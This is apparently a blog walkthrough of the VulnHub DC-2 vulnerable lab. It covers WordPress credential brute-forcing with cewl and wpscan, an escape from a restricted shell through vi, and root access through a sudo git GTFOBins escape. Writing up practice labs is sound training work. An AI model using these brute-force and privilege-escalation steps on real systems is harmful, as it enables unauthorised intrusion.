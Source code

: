 ```yaml
---
layout: single
title: DC-2 Writeup
tags: vulnhub
date: 2020-05-23
classes: wide
excerpt: DC-2 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing. 
---
```

DC-2 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing. Please do not forget to set up your hostname for dc-2, you can do this by editing `/etc/hosts` and inserting the IP of your machine then dc-2. `IP	dc-2`
## Recon
### Nmap Scan
```
Host is up (0.00018s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.00 seconds
```
### Website 80-TCP
Upon visiting the site, we are greeted by a wordpress-type of a site and it seems that one of the tab in the navigation bar is the FLAG.

![f6f89e5a77d41206f1b806ade2ee3367.png](/blog/assets/images/DC-2/1eaeca1fa6cf4cdfbb50a9e0bdc98c36.png)

Hmmm, it looks like its hinting us to use a tool called `cewl`.
Technically, Cewl is a tool that is used to generate wordlists by going through the site you have given it to visit which means it makes a list of possible usernames,passwords and etc.

using the command `cewl http://dc-2 -w wordlist.txt` it generated a file that contains words, because of the hint in the FLAG 1 I think we need to bruteforce for credentials.

We can bruteforce wordpress credentials by using `wpscan` a tool use for enumerating wordpress and its components it also supports credential bruteforcing.

To bruteforce for the credentials use `wpscan --url URL -P wordlist.txt` and wait for a while.
```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```
 
 ### User
 To get our initial foothold let's login to the wordpress portal first by visiting `http://dc-2/wp-admin/`.
 
 Looking around the site it seems that we can't find a way to gain foothold here but alas we have found another FLAG in the pages tab.
 
![c30c5f192fe37a3ee2c726bab8d9c320.png](/blog/assets/images/DC-2/1c69c8635bbb4f4e8e18e544ab35a558.png)

Hmmmm, another hint huh? it looks like its telling us that there's another way to get in but our nmap scan only has PORT 80 on it. This time let's do a full tcp nmap scan.

![full-tcp.png](/blog/assets/images/DC-2/73ef46075b234daab26526252eabd888.png)

Ahoy! it looks like we have another port which is `7744` let's try to figure out what service is running under that port by doing `nc dc-2 7744`. BOOM! we got ourselves a OPENSSH Port maybe this is the entry point that the FLAG 2 was trying to say.

Logging in with tom and his credentials we are in but unfortunately we are in a restricted environment :( fortunately there's still a way for us to get out of this restricted environment, by using `vi` and writing `:set shell=/bin/bash` and `:shell` we can get out of the place.

#### BROOKEN COOOMANDS EVERYWHERE
```
tom@DC-2:~$ id
bash: id: command not found
```
We can fix this, I know we can by setting 
```
export PATH=/usr/local/sbin:/sbin:/usr/sbin:/usr/bin:/bin:/usr/local/games:/usr/games
```
#### Root


![flag3.png](/blog/assets/images/DC-2/6a464bdb055845c28c84742bf8cdc05b.png)

Reading flag3 and again it is hinting us what to do next like the previous flags and right now it seems it is hinting us to change our user to Jerry and we shall do it!

![cbd0b9326f27dfdf87cb793b85a4c17d.png](/blog/assets/images/DC-2/0cbe77f8fcb44de6825b011642c13420.png)

Checking our permissions using `sudo -l` we now find that we can run `git` as root and by using our friendly neighborhood [spiderman](https://gtfobins.github.io/gtfobins/git/). 


![2af2c776c78cbb443f1a6d900d615f33.png](/blog/assets/images/DC-2/387d7d09ac04495e9f9c5b7da9618aa2.png)




We can root the machine  through using 
```
sudo git branch --help config
!/bin/sh
```
```
# whoami
root
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.

# 
```









